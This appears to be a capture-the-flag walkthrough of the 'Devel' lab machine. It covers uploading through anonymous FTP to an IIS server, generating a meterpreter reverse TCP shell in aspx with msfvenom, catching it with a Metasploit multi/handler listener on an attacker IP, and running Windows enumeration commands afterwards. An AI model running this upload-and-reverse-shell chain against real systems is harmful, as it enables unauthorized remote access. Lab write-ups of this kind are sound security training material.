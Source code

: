 ## Gaining a Foothold

### Devel (Using MSF conditions)  

**Initial Enum / RevShell Payload:**  
Nmap scan > iis server and ftp anonymous login identified > login ftp server and `PUT` test file sucessful > use msfvenom to generate a reverse tcp shell in aspx (since target is hosting iis)

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.05 LPORT=4444 -f aspx -o reverse.aspx`  

![image](https://github.com/user-attachments/assets/3db1aa08-39b4-45d2-afbe-01710f16b7cd)

**Listener with msfconsole multi handler:**  
msfconsole > use exploit/multi/handler > options > set payload windows/meterpreter/reverse_tcp > set LHOST ATTACKERIP > set LPORT 4444 > run

**Upload payload to iis:**  
ftp anonyomous login > `PUT reverse.aspx` > load http://victim/reverse.aspx (to trigger meterpreter reverse shell connection)  

#### System Enumeration  
now that we are a low level user, we repeat the cycle of information gathering, scanning enumeration and further exploitation.  

meterpreter: shell  
`systeminfo`  
`hostname`  
`hostname`  
patching checks (windows management instrumentation command line + quick fix engineering) : `wmic qfe` or `wmic qfe get Caption,Description,HotFixID,InstalledOn` for a cleaner view  
driver enumeration: `wmic logicaldisk get caption,description,providername`
